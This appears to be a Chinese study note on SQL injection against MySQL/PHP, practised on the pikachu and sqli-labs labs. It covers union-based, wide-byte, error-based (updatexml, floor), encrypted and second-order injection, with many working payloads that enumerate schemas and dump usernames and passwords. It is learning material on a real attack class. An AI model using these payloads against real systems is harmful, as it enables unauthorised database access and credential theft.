所有注入语句等都默认是mysql的数据库、源码是php文件，除非特殊提出是其他数据库 

[网络安全-SQL注入原理、攻击及防御-CSDN博客](https://blog.csdn.net/lady_killer9/article/details/107300079)

# phpstudy

1. 当通过phpstudy启动mysql后自动关闭，是因为本机原本下载的mysql在c盘，启动优先级更高，最先启动。所以解决这个问题的办法是：搜索服务，将服务中的mysql关闭后再启动即可
2. 搭建pikachu靶场：[pikachu靶场搭建教程(官方版）-CSDN博客](https://blog.csdn.net/Elite__zhb/article/details/131680435)
3. 搭建sql-labs靶场：[如何搭建 SQLi-Labs 靶场保姆级教程（附链接）_sqlilabs靶场搭建-CSDN博客](https://blog.csdn.net/2302_82189125/article/details/136015200)

# 数据库基础




# mySQL基础语法                                                          

  

1. mysql中16进制的语句是可以执行的，即将sql语句转为16进制，发送16进制数据，mysql可以执行这条16进制格式的sql语句

## 基本函数

[史上最全SQL基础知识总结(理论+举例)_sql学习-CSDN博客](https://blog.csdn.net/PILIpilipala/article/details/113798383)<br />[SQL入门教程（非常详细）从零基础入门到精通，看完这一篇就够了-CSDN博客](https://blog.csdn.net/Python84310366/article/details/131557987)

1. 查看当前数据库登录用户`user()`：`select user()`(注入查询出的`user()`即是当前后台发给数据库请求的用户，要满足要求的用户数据库才会返回信息)
2. 查看当前数据库是什么`database()`：`select database()`
3. 查看当前版本`version()`：`select version()`
4. 拼接两个或多个字符串`concat()`：`concat(string1, string2, ..., stringN)`

## mysql数据结构

1. mysql数据库5.0以上版本有一个自带的数据库叫做information_schema，该数据库下面有两个表一个是tables和columns。tables这个表的table_name字段下面是所有数据库存在的表名。table_schema字段下是所有表名对应的数据库名。columns这个表的colum_name字段下是所有数据库存在的字段名。columns_schema字段下是所有表名对应的数据库。

# SOL注入原理及漏洞利用
1. 服务端没有过滤用户输入的恶意数据，直接把用户输入的数据当作SQL语句执行，从而影响数据库按弃权和平台安全
2. 有数据交互的地方就容易产生注入点
3. sql注入的核心：将用户输入的数据拼接到代码中，并被当成 sql 语句执行
# SQL注入方法：
## 基本知识

1. 注入流程：                                                                                                                
2. 注入方法：                                                                                                                 
<a name="RHmIQ"></a>

## 如何查找注入点位置

1. 前端页面所有提交数据的地方，不管是登录、注册、留言板、评论区等地方，只要提交数据给后台，后台用该数据和数据库交互了，那么这个地方就可能存在注入点。还有一些不明显的注入点则需要通过转包等方式进行查找
2. 在调整注入点或注入内容时，一般都是通过burpsuit抓包后进行尝试

# SQL注入分类

## 数据型分类

主要分为数字型、字符型、搜索型、xx型（面试常问）

### 字符型注入

1. 注入点原本输入内容是字符串，注入时需要加引号作为闭合符。原始代码：`$query = "select id, email from member where username='$name'";`
2. 注入语句（payload）：`d' or 1=1#`
3. 检测应用程序是否将用户输入直接插入到后台数据库执行的SQL语句中。如果是，在输入`d' or 1=1#`（默认在该数据库中是用`'`作为字符串的闭合符）后则会返回所有信息，可以以此判断该输入点（注入点）对应的数据库内容。否则报错。
   1. 如果是直接插入。
      1. 假设是输入用户名的情况，`$name`即输入的用户名
      2. 数据库中的SQL代码语句是`$query = "select id, email from member where username='$name'";` 其中`$query`存储的是即将发送到服务器的命令
      3. 我们输入的内容会替换掉`$name`，因此会得到命令`……where username='d' or 1=1#'`
      4. 因为1=1是永真式，所以在执行这条命令时，和每个用户名匹配都为真，所以会输出所有用户信息
      5. 备注：代码在将这条命令发送到服务端时，服务端会自动为这条命令加上`;`
   2. 如果不是直接输入，有防范措施，如转码之类的，就会报错误
4. 引号测试（只有字符型注入需要加引号闭合，即注入点是输入字符串，所有数据库通用）：
   1. 单引号闭合数据：随便输入一个单词，在后面加 **'** 或 **"** ，报错就可以判断有注入点，单引号报错，双引号无输出则闭合符是单引号。eg: 输入`vince'` 和 `vince"`，`select id, email from member where username='vince''`和`……username='vince"'`，第一个报错，多了一个单引号；第二个正常，但无输出，因为查找的是名为`vince"`的内容。
   2. 双引号闭合数据：随便输入一个单词，在后面加 **'** 或 **"** ，报错就可以判断有注入点，双引号报错，单引号无输出则闭合符是双引号。eg: 输入`vince'` 和 `vince"`，`select id, email from member where username="vince'"`和`……username="vince""`，第一个正常，但无输出，因为查找的是名为`vince'`的内容；第二个报错，多了一个双引号。

### 数字型注入

1. 注入点的原本输入内容是数字，注入时不需要加引号作为闭合符，原始代码：`$query = "select username, email from member where id=$id;`
2. 注入语句（所有数据库通用）：
   1. 测试语句，是否为注入点（是否有防护，参数化处理，PDO预处理）：`1 and 1=1#`，`1 and 1=2#`
   2. 若无防护，注入语句（payload）：`1 or 1=1#`
3. 测试原理，当有防护（参数化处理），输入`1 and 1=1#`和`1 and 1=2#`时，应当无输出，因为它分别将这两条语句的整体当作一个参数来输入了，即寻找有无**id**是'1 and 1=1'或'1 and 1=2'的；当无防护时，应当在输入`1 and 1=1`时有输出，在输入`1 and 1=2`时无输出。
4. 注入原理，和字符型注入类似，通过`or 1=1`达到永真式`select username, email from member where id=1 or 1=1`，以此输出所有信息

### 搜索型注入

1. 搜索时基本都是使用模糊搜索，在SQL中模糊搜索(关键字`like`)是：
   1. `select id, email from member where username like '%vin%';`
   2. `%`是通配符，就是可以代替所有字符
   3. 在这行代码中的意思是查询出所有包含了'vin'的username对应的id和email，eg：kvin或avinb或vince
2. 注入点的原本输入是字符串（有很小可能是数字），注入时需要加引号闭合，原始代码：`select id, email from member where username like '%$name%';`
3. 注入语句（payload）：`d%' or 1=1#`（引号前加**%**以闭合源码中的**%**。在联合（union）注入或其他情况下（`d%' union ……#`），这样得到注入结果更多，所以最好加上这个。d可以换成其他字符，这个是按情况选择最佳，甚至可以写成`%d%' union ……#`以匹配更多）
4. 注入原理：注入成功后是：`select id, email from member where username like '%d%' or 1=1#%';`其思想和字符型注入类似

### xx型注入

1. 注入点的原本输入是字符串（有很小可能是数字），注入时需要加引号闭合并且外面多了一个**括号**需要闭合。源码：`$query = "select id, email from member where username=('$name')";`
2. 注入语句（payload）：`d') or 1=1#`
3. 注入原理：`select id, email from member where username=('d') or 1=1#');`

### json注入

1. json类型：浏览器中发送请求有几种格式（content-type），默认的是urlencoded，json格式是其中之一。跨语言交互一般都使用的是json格式

2. 和字符型注入和数字型注入类似，在注入前，先判断json数据的原始语句中键值是字符型还是数字型、字符型，在字符型则使用字符型的注入语句，否则，使用数字型的注入语句。

3. 原始语句：                                                                                                                                                                                                                                                   

   ```
   json1 = {"username":"peter", "id":1};
   ……
   $query1 = "select id, email from member where username='$name'";
   $query2 = "select username, email from member where id=$id";
   //经过转码赋值等一系列操作后，会将username对应的键值赋值给$name,会将id对应的键值赋值给$id
   ```

4. 注入语句（payload）：

   1. 字符型：`peter' or 1=1#`，即`"peter' or 1=1#"`
   2. 数字型： `or 1=1#`，即`1 or 1=1#`

5. 注入原理：

   1. `select id, email from member where username='peter' or 1=1#'`
   2. `select username, email from member where id=1 or 1=1`

## 提交方式分类

注入提交方式的分类主要是根据后台代码处理网页端请求方法的方式来分类的

> ASP、PHP和Python的脚本都能用于接收网页端的请求和调用数据库以及发送命令。这些脚本语言都提供了丰富的库和接口，使得它们能够轻松地与数据库进行交互，并执行各种命令。后台代码的作用就是接受网页端发来的请求（各种数据），处理后发送命令给数据库，得到数据库的响应再返回给网页端。
>
> ASP：`request`（全部接受）、`request.querystring`（接受get）、`request.from`（接受post）、`request.cookie cookie` （接受cookie）
>
> **PHP**：`$_REQUEST`（全部接受，cookie内的一般不行，因为get、post都能接受，增加了注入点，所以这种方式被攻击的危险性更大，不建议使用）、`$_GET`（不是取get请求携带的数据，而是取得查询参数数据，所以post请求（前提是在url上）它也能取，只要是url上查询参数的数据都可以取）、`$_POST`（接受post）、`$_COOKIE`（接受cookie）
>
> 其他语言，看开发框架，不同框架，提取http请求数据的写法或者说函数不同
>
> python django  -- mvc --  `request.GET`、`request.POST`、`request.body`

### get提交方式





### post提交方式



`$_POST`要能读取post请求，post请求中参数必须单独放置（在请求体中），并且要增加Content-Type

### cookie提交方式





因为代码限制了，只返回id并没有返回查询到的数据，即没有回显。此时还可以通过联合查询（`union`）进行报错注入，查询版本信息等

## 请求数据位置分类

### Http Header 注入

1. 对请求头进行注入，如报错注入：在User-Agent输入payload`Mozilla' or updatexm1(1,concat(0x7e,database()),0) or`，因为有些企业把user-agent等请求头键值对的数据也保存在了数据库里面
2. php专门取请求头数据的，使用的方法是`$SEVER['请求头键']$`就能拿到值

## 注入查询语句分类

1. `insert`、`delete`、`update`、`select`也就是增删改查。这些命令都可以被sql注入，其中面对`insert`、`delete`、`update`命令（增删改）一般是使用报错注入
2. `insert`注入：后台源码是`insert`命令语句时，eg：一般用于前端操作是注册账户、提交信息等。这种操作一般是没有回显的，所以可以使用报错注入

3. `update`注入：后台源码是`update`命令语句时，eg：一般用于用户登录端（修改最后一次登陆时间、信息等）或修改数据的地方等。这种操作一般是没有回显的，所以可以使用报错注入
4. `delete`注入：后台源码是`delete`命令语句时，eg：一般用于前后端发帖、留言、用户等相关的删除操作等。这种操作一般是没有回显的，所以可以使用报错注入（但一般要管理员才有权限进行这些操作）

# union注入攻击

## union查询（联合查询，所有关系型数据库通用）

1. `union` 查询在 SQL 中是一种将两个或多个 `select` 语句的结果集合并为一个结果集的操作。使用 `union` 时，每个 SELECT 语句必须拥有相同数量的列(字段)，并且每列(字段)的数据类型也需要兼容（因为这条命令的作用是将不同表的数据汇聚到同一个表中，每一列(字段)装了不同`select`语句提取的内容）。`union` 默认会去除重复的记录，如果你希望包含重复的记录，可以使用 `union all`。
2. 基本语句：`select column_name1，column_name2 from table1 union select column_name3，column_name4 from table2;`（将`column_name1`和`column_name3`的内容装在同一列，将`column_name2`和`column_name4`的内容装在同一列, `table1`可以为空）
3. 注意事项
   1. 列的数量和数据类型：所有 `select` 语句中的列数必须相同，且对应列的数据类型也必须兼容（或可以隐式转换）。
   2. 默认去重：`union` 默认会去除结果集中的重复行，如果你想要包含所有行（包括重复行），则应该使用 `union all`。
4. 注释符号和加号：
   1. 在get请求中没有空格，空格都是用**+**表示（即在url中）。post请求可以出现空格
   2. SQL中注释符号**#**、**--**。**#**注释可以直接接后面命令，**--**必须要有空格才能跟后面的命令。eg:  `select column_name1 from table1 union select column_name2 from table2;` -> `select column_name1 from table1; #union select column_name2 from table2;`  <=>  `select column_name1 from table1; -- union select column_name2 from table2;`
   3. 在get请求中不能出现**#**，可以用**#**的url编码来代替作为注释；也可以用**--**来注释，记得后面要跟一个空格，但是因为get请求中不能出现空格，所以要用**+**或空格的url编码代替

## union注入流程

### 字段判断

1. 通过尝试得到数据库查询可以返回的字段数量。
```
1' order by 1#

1' order by 2#

1' order by 3#
……
一直尝试，直到语句报错，则上一个数字是可以返回的字段数量
order by n：根据第n列进行排序
```
### 查询数据库名

1. 查询当前数据库名，用database()函数即可（假设字段数为2）
```
d' UNION SELECT 1,database() from information_schema.schemata#
```
2. 查询所有数据库名

```
d' UNION SELECT 1,group_concat(schema_name) from information_schema.schemata#
```

### 查询表名

1. 假设数据库名pikachu，获取所有表名
```
d' UNION SELECT 1,group_concat(table_name) from information_schema.tables where table_schema='pikachu'#
```
### 查询列名

1. 根据我们的目标，假设对表member感兴趣，获取所有列名
```
d' UNION SELECT 1,group_concat(column_name) from information_schema.columns where table_schema='pikachu' and table_name='member'#
```
### 查询所需字段值

1. 有了username就可以通过他给的表单获取对应email，所以就假设我们对phone、address更感兴趣，0x3a是冒号
```
d' UNION SELECT 1,group_concat(username,0x3a,phonenum,0x3a,address) from member#
```
## 偏移量注入

1. 使用情况：当联合查询时知道表名，不知道该表的有多少列和他的列名的情况下，用到偏移量注入
2. 前提条件：前面`selset`语句的查询列数要比后面`union select`中查询列数多。因为后面`union select`语句才是我们自己补上的注入语句，可以修改（增加其查询列数）；而前面的`select`语句我们是不能修改的，当前面的列数不足时，我们没有办法增加前面`select`语句的查询列数

### 背景知识

1. `SELECT 1, 2, 3`的作用
   1. **生成固定列的数据**：这个语句直接返回了一个包含三列的结果集，每列的值分别是1、2、3。这种用法在需要生成一个固定结构的数据集时很有用，比如在调试、测试或者构造一个特定的查询结果时。
   2. **用于子查询或临时表**：这个语句的结果集可以作为子查询或临时表的一部分，用于与其他表或查询结果进行联合查询、比较等操作。例如，在`IN`子句中使用，或者与`UNION`、`JOIN`等操作符结合使用。
2. 在使用`union`注入且前后列数不同时，正常来说会报错，此时我们在列数较少的`select`语句中增加查询`1,2,3 ……`，通过1，2，3……补齐列数，保证`union`语句正常运行，产生的临时表中补齐的列中的数据就是1或2或3……和另外一个表中的对应列的数据的结合体。**注意**：当`select * from 表名 …… `的前面select需要补齐时，`*`在最前面时可以保持不变，在其他位置时应写成`表名.*`，即：`select …… union select *,1,2,3 from users`和`select …… union select 1,2,users.*,3 from users`，不然会报错。

### 注入

1. 注入语句：`d' union select *,1,2,3 from users#`，使用时`users`改为具体的表名
2. 通过更改`*`的位置，得到不同的回显，得到想要的信息。
3. **注意**：由于网页回显列数可能只回显表的部分列数，可能无法查出注入语句查询的表中的所有列的数据。
   1. 假设输出原`select`语句中查询表的第二列和最后一列
   2. `d' union select *,1,2,3 from users#`：回显users表中的第二列数据和数字3
   3. `d' union select 1,users.*,2,3 from users#`：回显users表中的第一列数据和数字3
   4. `d' union select 1,2,users.*,3 from users#`：回显数字2和数字3
   5. `d' union select 1,2,3,users.* from users#`：回显数字2和users表中的最后一列数据（一般表中最后一列数据是level，即在表中的行数）
   6. 所以此次注入查询只查到了users表的第一列、第二列和最后一列，如果users表有三列以上，则无法查询玩users表中的所有数据


# 宽字节注入

宽字节注入仅限于后台使用的是GBK编码，即项目是GBK编码。

## 背景

1. GBK编码：支持中文，一个中文两字节（两个16进制数）
2. utf8：一个中文三字节，但不能使用宽字节注入，因为没有中文对应的以0x5c为最末位的三字节编号。所以无法拼接合并
3. 宽字节注入仅限于后台源码设置为GBK编码时`$set = "set character_set_client=gbk";`
4. 数据库为防止sql注入，通过转义函数将注入语句中的引号闭合符转义（尤其是php网站）使之意义失效，最终无法和命令中的引号闭合，导致注入失败。
   1. eg：`select id, email from member where username='d \' or 1=1#'`，其中因为注入语句中的引号被转义无法闭合，所以此命令真实读入的`username`是`d \' or 1=1#`
   2. 转义函数有`addslashes`和`mysql_real_escape_string`，他们转义的字符是单引号、双引号、反斜线和NULL空字符，转义的方式就是在这些符号前面自动加上`\`，让这些符号的意义失效。


## 注入语句

1. 即在正常的注入语句前面加一个%df(url)：`d%df' or 1=1#`（在burpsuit转包中的url中拼接）

## 原理

1. 宽字节注入原理：当后台源码通过转义函数来保护数据库时，在单引号前面多加一个16进制数，使之和转义字符`\`的16进制数0x5c拼接起来，变成GBK中对应的一个中文汉字，相当于通过拼接一个16进制数，将转义字符消去，拼接合并成另一个中文字符。一般是在前面加一个0xdf，即可和0x5c拼接成一个中文汉字，即df5c——運
2. 实现过程：
   1. 在url中注入`xx%df' or 1=1#`。（图中是该语句的url编码）
   2. 拼接到命令上：`select id, email from member where username='xx0xdf0x27+or+10x3d10x23'`
   3. 转义：`select id, email from member where username='xx0xdf\0x27+or+10x3d10x23'`，即`select id, email from member where username='xx0xdf0x5c0x27+or+10x3d10x23'`
   4. GBK编码：`select id, email from member where username='d 運' or 1=1#'`
   5. 单引号闭合，成功注入。


# error注入攻击（报错注入）

## 原理

后台没有屏蔽数据库报错信息，在语法发生错误时会输出在前端，并且错误信息里面可能会包含库名、表名等相关信息。

## 获取报错信息的函数（常用）

### Updatexml()

1. `Updatexml()`：是mysql对xml文档数据进行查询和修改的xpath函数，是一个内容替换函数，主要针对xml数据

2. sql使用方法：`UPDATEXML(XML_document, Xpath_string, new_value);`
   1. 第一个参数：`XML_document`是string格式，为xml文档对象的名称
   
   2. 第二个参数：`Xpath_string`（xpath格式的字符串），和正则类似
   
   3. 第三个参数：`new_value`，string格式，替换XML_document中xpath匹配符合条件的数据
   
   4. 作用，将`XML_document`内容通过`Xpath__string`匹配，匹配到的内容替换成`new_value`。
   
      

### extractvalue()

1. `extractvalue()`：是mysql对xml文档数据进行查询的xpath函数
2. sql使用方法：`EXTRACTVALUE(XML_document,Xpath_tring);`
   1. 第一个参数：`XML_document`是string格式，是XML文档对象的名称
   2. 第二个参数：Xpath_string是xpath格式字符串，用于匹配XML_document文件中的内容。


### floor()

1. `floor()`：mysql中用来取整（向下取整，只取整数部分）的函数
1. sql使用方法：

## 注入语句

### updatexml

1. 一般结构：`updatexml(1,concat(0x7e,(sql),0x7e),1)`
2. `1' or updatexml(1,concat(0x7e,(SELECT @@version),0x7e),1) #`
   1. 可以是`or`也可以是`and`，根据情况自己选择
   2. 括号内的语句先执行，相当于先查询版本号，得到的拼接语句作为`updatexml`第二个参数，不符合xpath语法，对该内容报错。因为sql报错时会将错误内容返回，所以借助报错将版本号等敏感信息暴露出来。
   3. 因为updatexml语句第二个参数已经错了，所以前后两个参数无所谓都是随便写的1。
   4. 用cancat语句拼接查询的信息，因为一些特殊符号可能导致查询的数据信息显示不全（数据库将之当成多个数据），通过concat语句拼接就能使查询的信息完整显示。
   5. 0x7e是 **~** 符号的16进制，写入0x7e的目的是为了避免concat语句中只有一个参数报错。0x7e可以改，任意符号皆可。为什么不用 **~** ，是因为在concat中 **~** 要加引号，在注入时发生引号冲突。
   6. 示例中，最终的报错语句中会是：`……~5.5.53~……`，如果不加concat，则会只显示`.53`
3. 如果要查询数据库名称：`1' or updatexml(1,concat(0x7e,database(),0x7e),1) #`（直接调用内置函数不需要用括号括住，也可以外加一个括号，不影响）
4. 爆出数据库及相关信息（登录用户和数据库根目录路劲）：`1' and updatexml(1,concat(0x7e,database(),0x7e,user(),0x7e,(select @@datadir)),1)#`
5. 爆当前数据库表信息：`1' and updatexml(1,concat(0x7e,(select group_concat(table_name SEPARATOR 0x7e) from information_schema.tables where table_schema=database()),0x7e),1) #`
   1. 5.1及以上的mysql版本，mysql数据库中会存在一个叫做information_schema的默认数据库，这个库里面记录着整个mysql管理的数据库的名称、表明、列名（字段名）。
      1. 其中`information_schema.tables`（即information_schema数据库中的tables表）存放了数据库中的所有表名
      2. table_schema指的是数据库的名称。它用于标识数据库中的表所属的数据库。
      3. 在mysql中`table_name`通常指表名
   2. 此处使用`group_concat()`函数进行输出，将所有表名通过 **~** 连接成一个字符串，所以此时不需要使用`LIMIT`限制
   3. `d' and updatexml(1,concat(0x7e,(SELECT table_name from information_schema.tables where table_schema=database() limit 0,1),0x7e),1)#`不用`group_concat`时，也可以用`limit`限制一下即可
      1. `limit` 子句在这里的作用是确保子查询只返回一个表名，而不是所有表名。这在 SQL 注入攻击中非常有用，因为它可以控制返回的数据量，避免过多的数据导致查询失败或被检测到
      2. `limit a,n`：表示返回从a行开始的n行数据（第一行是0行）
      3. 通过枚举a的值来达到枚举出所有表名的作用。

6. 爆user表字段信息：`1' and updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'),0x7e),1) #`
   1. `information_schema.columns`（即information_schema数据库中的columns表）存放了数据库中的所有字段名（列名）
   2.  `column_name`是指的是字段名（列名）

7. 爆字段内容（字段值）：`1' and updatexml(1,concat(0x7e,(select group_concat(username,0x7e,password) from users limit 0,1),0x7e),1) #`

### extractvalue

1. 一般结构：`extractvalue(1,concat(0x7e,(sql),0x7e))`

### floor

1. 一般结构：`Select count(*),concat(PAYLOAD,floor(rand(0)*2))x from 表名 group by x;`
2. 这条 SQL 语句的作用是利用 MySQL 的报错机制来进行 SQL 注入攻击。具体来说，它通过生成重复的键值来触发数据库的错误，从而将注入的有效载荷（`PAYLOAD`）包含在错误信息中。以下是每个部分的详细解释：
   1. **`SELECT count(\*), concat(PAYLOAD, floor(rand(0)\*2)) x FROM 表名 GROUP BY x;`**：
      - **`count(\*)`**：统计表中所有记录的数量。
      - **`concat(PAYLOAD, floor(rand(0)\*2)) x`**：将 `PAYLOAD` 与 `floor(rand(0)*2)` 的结果连接起来，并将其命名为 `x`。`floor(rand(0)*2)` 会生成一个伪随机数（0 或 1），因为 `rand(0)` 使用固定的种子值 0。
      - **`GROUP BY x`**：根据 `x` 的值对结果进行分组。
   2. **`floor(rand(0)\*2)`**：
      - **`rand(0)`**：生成一个伪随机数序列，因为使用了固定的种子值 0，每次生成的序列都是相同的。
      - **`floor(rand(0)\*2)`**：将生成的伪随机数乘以 2 并取整，结果是 0 或 1。
   3. **报错机制**：
      - 当 `GROUP BY` 操作遇到重复的键值时，会尝试将这些键值插入到一个临时表中。如果插入时发现键值已经存在，就会触发主键冲突错误（`Duplicate entry`）。
      - 通过 `concat` 函数将 `PAYLOAD` 包含在生成的键值中，当触发错误时，`PAYLOAD` 会出现在错误信息中，从而实现信息泄露。

# 加密注入

1. 前端提交的有些数据是加密后，到后台再解密，然后再进行数据库查询等相关操作的，所以对注入语句应当进行相同的加密操作，再进行注入。
2. 注入流程：对加密数据解密—>在解密的内容中注入payload—>对修改后的内容加密—>再将加密后的内容发送过去。
3. 常用加密base64等，如果不知道是什么加密，则看前端代码（很大可能是js文件中），分析是什么加密

# 二次注入

1. 二次注入是一种数据库安全漏洞，它通常难以通过黑盒测试发现，而更多地依赖于代码审计。这种漏洞主要发生在程序代码中操作数据库数据的地方，特别是当从数据库中取出的数据未经脏数据过滤时。二次注入的原理在于，攻击者构造的恶意数据被存储在数据库中后，这些数据在后续被读取并直接用于构建SQL查询语句时，可能导致SQL注入攻击。

2. 具体来说，即使防御者在用户输入恶意数据时对其中的特殊字符进行了转义处理，但在恶意数据被插入到数据库时，这些处理可能被还原，导致脏数据被存储在数据库中。当Web程序调用这些存储在数据库中的恶意数据并执行SQL查询时，就可能发生SQL二次注入。

3. 以PHP代码为例，如果在第一次插入数据时，仅仅使用了`addslashes`或`get_magic_quotes_gpc`对特殊字符进行了转义，但在写入数据库时仍保留了原始数据（如单引号），这些数据就被视为脏数据。在后续查询过程中，如果直接从数据库中取出这些数据并用于构建SQL查询，而没有进行进一步的检验和处理，就可能形成二次注入。

   因此，为了防止SQL二次注入，开发者需要确保在每次从数据库中取出数据并用于构建SQL查询时，都进行充分的验证和过滤，确保数据的安全性。

4. 二次注入分为两步：

   1. 第一步：插入恶意数据。进行数据库插入数据时，对其中的特殊字符进行转义处理，在写入数据库的时候又保留了原来的数据
   2. 第二步：引入恶意数据。开发者默认存入数据库的数据都是安全的，在进行查询时，直接从数据库中取出恶意数据，没有进行进一步的检验处理

5. 二次注入通常用在注册、评论区留言等数据库会留存输入信息的场景。

6. 注入示例（sqli-labs lesson 24——登录场景）：

   1. 选择注册用户（假设已知管理员用户名为：admin，或其他人的用户名）
      1. 注册的用户名是注入语句：`admin'#`
      2. 密码随便写：123
      3. 因为有防护将引号等特殊字符进行了转义处理，所以此时注册的账户是用户名：admin'#，密码：123，注入语句并未发生作用。但此时这条注入语句被存入了数据库中。
   2. 返回登录页面，登录此账户，选择修改密码。
      1. 原密码：123
      2. 新密码：666，再次确认输入666
      3. 选择确认。重置密码后，会发现用户名：admin'#的密码还是123；但是用户名：admin的密码变成了666
